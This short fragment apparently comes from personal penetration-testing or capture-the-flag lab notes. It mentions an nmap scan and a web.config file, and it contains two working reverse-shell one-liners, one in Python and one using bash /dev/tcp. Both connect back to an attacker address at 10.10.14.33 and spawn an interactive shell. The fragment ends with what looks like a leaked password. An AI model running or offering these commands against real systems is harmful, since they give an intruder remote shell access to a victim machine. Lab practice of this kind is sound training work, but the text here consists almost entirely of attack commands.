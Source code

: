 start with nmap

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.33",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

web.config is present

bash -i >& /dev/tcp/10.10.14.33/8080 0>&1

CQHEy@9M*m23gBVj